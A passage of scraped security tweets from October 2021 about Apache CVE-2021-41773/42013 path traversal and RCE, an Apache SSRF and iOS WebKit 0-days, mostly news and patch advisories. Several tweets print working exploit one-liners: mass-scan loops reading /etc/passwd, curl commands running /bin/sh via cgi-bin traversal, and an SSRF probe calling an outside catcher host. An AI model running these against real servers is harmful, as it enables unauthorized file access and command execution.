✅One Liner POC :
cat file.txt | while read host do;do curl --path-as-is --insecure "$host/?unix:(7701 A's here) | "https://t.co/VOG5gPgWOE" | grep "request caught" &amp;&amp; echo "$host \033[0;31mVuln\n" || echo "$host \033[0;32mNot\n";done
</blockquote>

* https://bugbounty.requestcatcher.com/ssrf

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>141</code></td>
</tr></table>

---

# _mattata
**https://twitter.com/_mattata/status/1449020783989297167 _at 2021-10-15 14:34:11_**
<blockquote>
CVE-2021-40438 Apache SSRF as a one-liner. https://t.co/RG69SAptTM
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>109</code></td>
<td>Favorites: <code>396</code></td>
</tr></table>

---

# _r_netsec
**https://twitter.com/_r_netsec/status/1449004158829219844 _at 2021-10-15 13:28:07_**
<blockquote>
Building a POC for CVE-2021-40438 – SSRF in apache2 mod_proxy https://t.co/eD5nPBy8mN
</blockquote>

* https://firzen.de/building-a-poc-for-cve-2021-40438

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# pdnuclei
**https://twitter.com/pdnuclei/status/1448900265420099584 _at 2021-10-15 06:35:17_**
<blockquote>
Did you know that your Interactsh server may also be used to query cloud metadata services?

Reference - https://t.co/ysyONf7BAK

#ssrf #apache #appsec #bugbounty #pentest https://t.co/fgBKGcRX1D
</blockquote>

* https://github.com/projectdiscovery/interactsh#cloud-metadata

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>79</code></td>
<td>Favorites: <code>231</code></td>
</tr></table>

---

# pdnuclei
**https://twitter.com/pdnuclei/status/1448780914750681098 _at 2021-10-14 22:41:01_**
<blockquote>
Apache &lt;= 2.4.48 - Mod_Proxy SSRF (CVE-2021-40438)

Nuclei Template - https://t.co/vbQANmrdI0

Reference - https://t.co/rliMLU9DDg

#apache #cve #ssrf #bugbounty #pentest #appsec https://t.co/4q57lclGBh
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-40438.yaml
* https://firzen.de/building-a-poc-for-cve-2021-40438

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>228</code></td>
<td>Favorites: <code>609</code></td>
</tr></table>

---

# YourAnonS0u1
**https://twitter.com/YourAnonS0u1/status/1448779253919666181 _at 2021-10-14 22:34:25_**
<blockquote>
Python all in one hacking module : https://t.co/EDx2Is8qMo

The module has DDoS attacks (all known tools are included), information gathering, scrapping proxies, crawling, google dorking, checking for vulnerabilities (sql injection (all types), xss, and many more.  #CyberSecurity
</blockquote>

* https://github.com/AlaBouali/bane

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---

# PSXHaxDOTcom
**https://twitter.com/PSXHaxDOTcom/status/1448566520406282240 _at 2021-10-14 08:29:06_**
<blockquote>
PS4 WebKit Exploit Test for Use-After-Free (CVE-2021-30858) Vulnerability
https://t.co/7w2784LFaB
</blockquote>

* https://www.psxhax.com/threads/ps4-webkit-exploit-test-for-use-after-free-cve-2021-30858-vulnerability.10277/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>136</code></td>
</tr></table>

---

# mobilesecurity_
**https://twitter.com/mobilesecurity_/status/1448563465593966593 _at 2021-10-14 08:16:57_**
<blockquote>
‼️ iOS WebKit RCE 0-day (CVE-2021-30858) in the wild including POC
🎯Affected Versions: pre-Safari 14.1.2, pre-iOS 14.8
🔥UPDATE immediately to the latest iOS version
#MobileSecurity #iOSsecurity by @maddiestone and @ProjectZeroBugs 
https://t.co/zwaxArmyOw
</blockquote>

* https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2021/CVE-2021-30858.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>82</code></td>
</tr></table>

---

# ZecOps
**https://twitter.com/ZecOps/status/1448527474065752070 _at 2021-10-14 05:53:56_**
<blockquote>
[BREAKING] CVE-2021-30858 iOS WebKit RCE 0-day in the wild: https://t.co/3zGZtPbMte including POC. Can be chained with CVE-2021-30883 and used in 1-clicks and water-holing attacks against iOS users.

Update to the latest version as soon as possible.
</blockquote>

* https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2021/CVE-2021-30858.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>93</code></td>
<td>Favorites: <code>194</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1448519884808146944 _at 2021-10-14 05:23:47_**
<blockquote>
[Apache] HTTP Server cgi-bin Path Traversal and RCE (CVE-2021-42013)

This exploit can bypass for Apache HTTP Server 2.4.50 (CVE-2021-41773 Patch Version)

GET /cgi-bin/%%32%65%%32%65/.../%%32%65%%32%65/etc/passwd HTTP/1.1

https://t.co/J3VlUh5pw4 https://t.co/0eLtCyuAa9
</blockquote>

* https://dl.packetstormsecurity.net/2110-exploits/apache2450-traversalexec.txt

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>108</code></td>
<td>Favorites: <code>251</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1448303942979313674 _at 2021-10-13 15:05:42_**
<blockquote>
🌟 RCA for WebKit itw 0-day CVE-2021-30858 🌟
#itw0days 
I do love me a tweetable poc:

var fontFace1 = new FontFace("font1", "", {});
var fontFaceSet = new FontFaceSet([fontFace1]);
https://t.co/diiDQMUoSM = "font2";

https://t.co/r1mHx3kYrU
</blockquote>

* http://fontFace1.family
* https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2021/CVE-2021-30858.html

<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>146</code></td>
<td>Favorites: <code>491</code></td>
</tr></table>

---

# infinityABCDE
**https://twitter.com/infinityABCDE/status/1448294930791677955 _at 2021-10-13 14:29:54_**
<blockquote>
CVE-2020-10665 Docker Desktop Local Privilege Escalation! It was challenging picking up C++ as well as multiple exploit stages (hard link spraying, DLL overwrite, printer API call) but learned a lot :) https://t.co/qCdaUANheu

 https://t.co/ipZ71W9Vi4
</blockquote>

* https://github.com/spaceraccoon/CVE-2020-10665

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# ly4k_
**https://twitter.com/ly4k_/status/1448064117378584576 _at 2021-10-12 23:12:43_**
<blockquote>
1/8 Here's my quick analysis on the new Print Spooler vulnerability (CVE-2021-36970)

Few details are currently available, but Microsoft states that this is a spoofing vulnerability with a CVSS score of 8.8.

https://t.co/1tBouYThMC
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36970

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>95</code></td>
<td>Favorites: <code>253</code></td>
</tr></table>

---

# GovCERT_CH
**https://twitter.com/GovCERT_CH/status/1447992702826582024 _at 2021-10-12 18:28:57_**
<blockquote>
Among 81 vulnerabilities, Microsoft also patches a local privilege escalation (CVE-2021-40449) that is actively being used in the wild. https://t.co/jyUHwk0OqZ
Patch now!
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40449

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1447981830234333188 _at 2021-10-12 17:45:45_**
<blockquote>
The Microsoft October 2021 Patch Tuesday fixes are out.

-81 vulnerabilities fixed
-one actively exploited zero-day (CVE-2021-40449)

https://t.co/zKYxm3MFuu https://t.co/vLD3r9TDz6
</blockquote>

* https://rawcdn.githack.com/campuscodi/Microsoft-Patch-Tuesday-Security-Reports/cb79f8be8133dbcfaac380ac04b456c2e0ecb987/Reports/MSRC_CVEs2021-Oct.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>67</code></td>
<td>Favorites: <code>144</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1447755249729503232 _at 2021-10-12 02:45:24_**
<blockquote>
Apple has released urgent #iOS 15.0.2 and #iPadOS 15.0.2 updates to address a new critical 0-day #vulnerability (CVE-2021-30883) that is being actively exploited in the wild.

Read details: https://t.co/dKBxXfxJk1

#infosec #cybersecurity #hacking #iPhone
</blockquote>

* https://thehackernews.com/2021/10/apple-releases-urgent-iphone-and-ipad.html

<table><tr>
<td>Quotes: <code>19</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>208</code></td>
<td>Favorites: <code>247</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1447651394912063488 _at 2021-10-11 19:52:43_**
<blockquote>
Mass scanning activity detected from the following hosts targeting Fortinet VPN servers vulnerable to unauthenticated arbitrary file read (CVE-2018-13379) leading to disclosure of usernames and passwords in plaintext.
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>72</code></td>
</tr></table>

---

# jonathandata1
**https://twitter.com/jonathandata1/status/1447296005104341001 _at 2021-10-10 20:20:31_**
<blockquote>
Here is the code for the iOS 15.0.1 RCE PoC V1...
Available on Github Now

https://t.co/zJu6M8AAfL

#infosec #CybersecurityAwarenessMonth #CyberSecurity https://t.co/11A7l07tnY
</blockquote>

* https://github.com/jonathandata1/ios_15_rce

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>53</code></td>
<td>Replies: <code>29</code></td>
<td>Retweets: <code>297</code></td>
<td>Favorites: <code>712</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1446741966977323017 _at 2021-10-09 07:38:58_**
<blockquote>
GitHub - 0xAgun/CVE-2021-40870: Aviatrix Controller 6.x before 6.5-1804.1922. Unrestricted upload of a file which allows an unauthenticated user to execute arbitrary code via directory traversal - https://t.co/m7dovZ0v8z
</blockquote>

* https://github.com/0xAgun/CVE-2021-40870

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>8</code></td>
</tr></table>

---

# htrgouvea
**https://twitter.com/htrgouvea/status/1446453380352708640 _at 2021-10-08 12:32:14_**
<blockquote>
CVE-2021-41773 free lab: https://t.co/UrpVxBcfLN

And a simple exploit for arbitrary file read/RCE here: https://t.co/dn87DsJFR0
</blockquote>

* https://github.com/htrgouvea/lab-cve-2021-41773
* https://github.com/htrgouvea/spellbook/blob/master/lib/Spellbook/Exploit/CVE_2021_41773.pm

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>7</code></td>
</tr></table>

---

# Mekhalleh
**https://twitter.com/Mekhalleh/status/1446452062020067328 _at 2021-10-08 12:27:00_**
<blockquote>
I just update the PoC to introduce the CVE-2021-42013 (Traversal/RCE into Apache 2.4.49/2.4.50)

Support more check, incluing the file reading on remote vulnerable servers (from @RandomDhiraj).

cc @metasploit, @ANSSI_FR @Dinosn 

https://t.co/nw13F11Plx
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/15754#issuecomment-938575513

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---

# Vulnmachines
**https://twitter.com/Vulnmachines/status/1446351656568852483 _at 2021-10-08 05:48:01_**
<blockquote>
Reproduce CVE-2021-42013 Apache 2.4.50 path traversal vulnerability.

Path traversal vulnerability

GET /cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd

#infosec #cybersecurity #Apache https://t.co/MovReofUqO
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1446338109294084100 _at 2021-10-08 04:54:11_**
<blockquote>
A new urgent Apache patch update has been released for the actively exploited Path Traversal issue (CVE-2021-41773), which has now been identified as a critical remote code execution #vulnerability.

Details: https://t.co/XmJyzQjUKm

#infosec #cybersecurity #sysadmin #hacking
</blockquote>

* https://thehackernews.com/2021/10/new-patch-released-for-actively.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>152</code></td>
<td>Favorites: <code>218</code></td>
</tr></table>

---

# roman_soft
**https://twitter.com/roman_soft/status/1446252280597078024 _at 2021-10-07 23:13:08_**
<blockquote>
RCE exploit both for Apache 2.4.49 (CVE-2021-41773) and 2.4.50 (CVE-2021-42013):
root@CT406:~# curl 'http://192.168.0.191/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type: text/plain; echo; id'
uid=1(daemon) gid=1(daemon) groups=1(daemon)
</blockquote>

<table><tr>
<td>Quotes: <code>22</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>478</code></td>
<td>Favorites: <code>1086</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1446168197296627717 _at 2021-10-07 17:39:01_**
<blockquote>
"It was found that the fix for CVE-2021-41773 in Apache HTTP Server 2.4.50 was insufficient. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives."
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1446080577514266625 _at 2021-10-07 11:50:51_**
<blockquote>
A high-severity code injection #vulnerability (CVE-2021-38305) has been discovered in 23andMe's Yamale, a schema and validator for #YAML used by at least 224 repositories on #GitHub.

Read: https://t.co/2S7HhGN0CN

#infosec #cyberecurity #python
</blockquote>

* https://thehackernews.com/2021/10/code-execution-bug-affects-yamale.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>88</code></td>
</tr></table>

---

# mozdeco
**https://twitter.com/mozdeco/status/1446030788059975687 _at 2021-10-07 08:33:00_**
<blockquote>
Hahaha, someone has turned a PHP engine fuzz bug I reported 10 years ago into an exploit for the current engine. Made my day. https://t.co/SS2C3DRzNa
</blockquote>

* https://github.com/mm0r1/exploits/tree/master/php-filter-bypass

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>178</code></td>
</tr></table>

---

# PentesterLab
**https://twitter.com/PentesterLab/status/1445899182741458945 _at 2021-10-06 23:50:03_**
<blockquote>
Two new challenges covering how to exploit the latest Apache Httpd RCE (CVE-2021-41773) via SSRF:

File disclosure:
https://t.co/Tn3Ik3TRd7

RCE (CGI enabled): 
https://t.co/VJBSTgX8Xi 

Have fun!
</blockquote>

* https://pentesterlab.com/exercises/cve-2021-41773/course
* https://pentesterlab.com/exercises/cve-2021-41773_ii/course

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>92</code></td>
</tr></table>

---

# Mekhalleh
**https://twitter.com/Mekhalleh/status/1445854775279423491 _at 2021-10-06 20:53:35_**
<blockquote>
Just pushed my PoC to get an RCE using the CVE-2021-41773 (Path Traversal in Apache 2.4.49) into @metasploit. You like Meterpreter?

cc @CERT_FR, @zeop_officiel, @Dinosn 

The Github repo from Zeop Entreprise is now public: https://t.co/NkUOesiZnO.

Pull: https://t.co/pZ2aQWExLt https://t.co/5tdkZsQbJn
</blockquote>

* https://github.com/Zeop-CyberSec/apache_normalize_path
* https://github.com/rapid7/metasploit-framework/pull/15754

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>80</code></td>
<td>Favorites: <code>164</code></td>
</tr></table>

---

# dragosr
**https://twitter.com/dragosr/status/1445803430333730816 _at 2021-10-06 17:29:34_**
<blockquote>
Brutally trivial to exploit Apache CVE-2021-41773 RCE with mod-cgi is only a panic if you are running arch, manjaro, suze or a few others. The month old bug is too new to have rolled into Debian, ubuntu and most distros. https://t.co/W3C49Ckjxi
</blockquote>

* https://ubuntu.com/security/CVE-2021-41773

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---

# PentesterG
**https://twitter.com/PentesterG/status/1445802062256566276 _at 2021-10-06 17:24:08_**
<blockquote>
#Apache fixes actively exploited web server #zeroday 

🔥  I Reproduced the fresh CVE-2021-41773 Path Traversal vulnerability in Apache 2.4.49.

=&gt; LFI
 =&gt;Also, RCE providing mod-CGI is enabled.
https://t.co/EZWEnbhjiO

https://t.co/HPpbrcs9hc
Patch ASAP!
{1}
</blockquote>

* https://pentesterguruji-notes.notion.site/CVE-2021-41733-f58b52f484b94671b319c107ac2739bf
* https://github.com/PentesterGuruji/CVE-2021-41773

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# cyberthint
**https://twitter.com/cyberthint/status/1445669213629124616 _at 2021-10-06 08:36:14_**
<blockquote>
Urgent patch time for #Apache users! Path traversal and file disclosure (zero-day) vulnerabilities (CVE-2021-41773) was discovered in Apache version 2.2.49.
Flaw and fix: https://t.co/EmMKy5EdLE
Change notes: https://t.co/HGGODdEDmC https://t.co/M1JE4uHJHr
</blockquote>

* https://github.com/apache/httpd/commit/e150697086e70c552b2588f369f2d17815cb1782
* https://httpd.apache.org/security/vulnerabilities_24.html

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>18</code></td>
</tr></table>

---

# HackerGautam
**https://twitter.com/HackerGautam/status/1445666357920428036 _at 2021-10-06 08:24:53_**
<blockquote>
Update : CVE-2021-41773 POC as RCE 🔥👇💥

✅One Liner:
cat file | while read host do ; do curl --silent --path-as-is --data "echo;id" '$host/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' | grep "uid" &amp;&amp; echo "$host \033[0;31mVuln\n"|| echo "$host \033[0;32mNot\n";done

#infosec #bugbounty
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>333</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1445654263971995653 _at 2021-10-06 07:36:50_**
<blockquote>
Multiple critical vulnerabilities have been discovered in #Honeywell Experion PKS and ACE Controllers that could be exploited for RCE and DoS attacks on critical processes.

https://t.co/3Phji231fH

CVE-2021-38397 (CVSS 10)
TypeCVE-2021-38395 (CVSS 9.1)
CVE-2021-38399 (CVSS 7.5)
</blockquote>

* https://thehackernews.com/2021/10/multiple-critical-flaws-discovered-in.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>58</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---

# _r_netsec
**https://twitter.com/_r_netsec/status/1445602995203239946 _at 2021-10-06 04:13:06_**
<blockquote>
Yet another PHP 7.0-8.0 disable_functions bypass 0day PoC https://t.co/lBzq0XzAzd
</blockquote>

* https://github.com/mm0r1/exploits/tree/master/php-filter-bypass

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>81</code></td>
<td>Favorites: <code>221</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1445565658758991875 _at 2021-10-06 01:44:45_**
<blockquote>
GreyNoise is observing vuln-checking and exploitation of Apache CVE-2021-41773 at internet-scale from several hosts. Increase in attempts is likely. Tags available to all users and customers now. 

tags:"Apache HTTP Server Path Traversal Attempt"

https://t.co/qIQU2MQ26p https://t.co/xqj8hkbzEf
</blockquote>

* https://www.greynoise.io/viz/query/?gnql=cve%3ACVE-2021-41773

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1445531829985968137 _at 2021-10-05 23:30:19_**
<blockquote>
Here's how to run full commands with arguments via CVE-2021-41773 via a path traversal vulnerability in the event mod-cgi is enabled on Apache 2.4.49

curl --data "A=|id&gt;&gt;/tmp/x;uname\$IFS-a&gt;&gt;/tmp/x" 'http://127.0.0.1:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' -vv

Patch urgently. https://t.co/jaL6jpR42w
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>50</code></td>
<td>Replies: <code>17</code></td>
<td>Retweets: <code>567</code></td>
<td>Favorites: <code>1254</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1445523524555186189 _at 2021-10-05 22:57:19_**
<blockquote>
Oh good, CVE-2021-41773 is in fact also RCE providing mod-cgi is enabled. An attacker can call any binary on the system and supply environment variables (that's how CGI works!) - if they can upload a file and set +x permissions, they can trivially run commands as Apache user. https://t.co/c3D2h5Cy4A
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>23</code></td>
<td>Replies: <code>17</code></td>
<td>Retweets: <code>220</code></td>
<td>Favorites: <code>561</code></td>
</tr></table>

---

# phithon_xg
**https://twitter.com/phithon_xg/status/1445435172787146754 _at 2021-10-05 17:06:14_**
<blockquote>
Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49

All-in-One reproduction for CVE-2021-41773
https://t.co/xeC7X4xeX1

#Vulhub #infosec #security #bugbountytip https://t.co/DhD8BFin4o
</blockquote>

* https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>96</code></td>
<td>Favorites: <code>259</code></td>
</tr></table>

---

# cyph3r_asr
**https://twitter.com/cyph3r_asr/status/1445424339709358088 _at 2021-10-05 16:23:11_**
<blockquote>
For those who are into mass hunting and automation!

👉 Apache 2.4.49 - Path Traversal
CVE-2021-41773 POC 

https://t.co/GyHG4TK9lf

👉 Aviatrix Controller 6.x before 6.5-1804.1922. RCE
CVE-2021-40870 POC

https://t.co/d8hrai6QtP

https://t.co/h5h9CuzdTx

#bugbountytips #infosec
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-41773.yaml
* https://github.com/projectdiscovery/nuclei-templates/blob/master/technologies/aviatrix-detect.yaml
* https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-40870.yaml

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# bennyyjacob
**https://twitter.com/bennyyjacob/status/1445420510590824451 _at 2021-10-05 16:07:58_**
<blockquote>
Finally my disclosure request has been approved and here's a write-up of CVE-2021-26084, Confluence RCE. Though not much to add than what's already known of the CVE and it's exploits, i'm simply outlining my approach that led to this CVE .

https://t.co/as1qLqNqMD
</blockquote>

* https://github.com/snowyyowl/writeups/blob/main/CVE-2021-26084.md

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>279</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1445417980305854468 _at 2021-10-05 15:57:55_**
<blockquote>
CVE-2021-41773: A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack ...
https://t.co/bhoEa1YUcC

PoC
127.0.0.1/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
</blockquote>

* https://httpd.apache.org/security/vulnerabilities_24.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>205</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1445413712702152706 _at 2021-10-05 15:40:58_**
<blockquote>
I've converted @daffainfo nuclei template into a #Sigma rule to detect exploitation of the #Apache path traversal vulnerability reported in CVE-2021-41773

#CVE202141773

Nuclei Template
https://t.co/nFdTlnXCSS

Sigma Rule
https://t.co/LvdcroscA1 https://t.co/JcKJqyit6w
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-41773.yaml
* https://github.com/SigmaHQ/sigma/pull/2124/files

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>150</code></td>
</tr></table>

---

# HackerGautam
**https://twitter.com/HackerGautam/status/1445412108863041544 _at 2021-10-05 15:34:35_**
<blockquote>
CVE-2021-41773 POC 🔥👇
 
✅ One Liner :

cat targets.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" &amp;&amp; echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done
</blockquote>

<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>421</code></td>
<td>Favorites: <code>1037</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1445405839041437699 _at 2021-10-05 15:09:41_**
<blockquote>
Apache has issued urgent security patches to address 2 new security vulnerabilities—including a zero-day path traversal and file disclosure flaw (CVE-2021-41773) in HTTP servers that it said is being actively exploited in the wild.

Details: https://t.co/B3wC46pZol

#infosec #
</blockquote>

* https://thehackernews.com/2021/10/apache-warns-of-zero-day-exploit-in.html

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>137</code></td>
<td>Favorites: <code>171</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1445401617407295495 _at 2021-10-05 14:52:54_**
<blockquote>
NEW: Apache fixes actively exploited web server zero-day

-Tracked as CVE-2021-41773
-Issue resides in Apache's path normalization logic
-Several PoCs already released
-No details on the ongoing exploitation

https://t.co/JV9nKlgXLl https://t.co/JB0WLNvZf9
</blockquote>

* https://therecord.media/apache-fixes-actively-exploited-web-server-zero-day/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1445397282581528588 _at 2021-10-05 14:35:41_**
<blockquote>
many have questioned. this poc.. hi I've made the nuclei-templates ahead of time you can check them out here @pdnuclei https://t.co/vtJOxs2UCq

#nuclei #automation #bugbounty
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/pull/2773

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>237</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1445376079548624899 _at 2021-10-05 13:11:25_**
<blockquote>
🔥 We have reproduced the fresh CVE-2021-41773 Path Traversal vulnerability in Apache 2.4.49.

If files outside of the document root are not protected by "require all denied" these requests can succeed.

Patch ASAP! 

https://t.co/6JrbayDbqG https://t.co/AnsaJszPTE
</blockquote>

* https://httpd.apache.org/security/vulnerabilities_24.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>47</code></td>
<td>Replies: <code>16</code></td>
<td>Retweets: <code>413</code></td>
<td>Favorites: <code>798</code></td>
</tr></table>

---

# iamamoose
**https://twitter.com/iamamoose/status/1445304838963830784 _at 2021-10-05 08:28:20_**
<blockquote>
If you use Apache HTTP Server 2.4.49 (only that version), you should update to 2.4.50 now due to CVE-2021-41773, a nasty 0-day path traversal vulnerability https://t.co/2QiV4h77B4
</blockquote>

* https://httpd.apache.org/security/vulnerabilities_24.html

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>8</code></td>
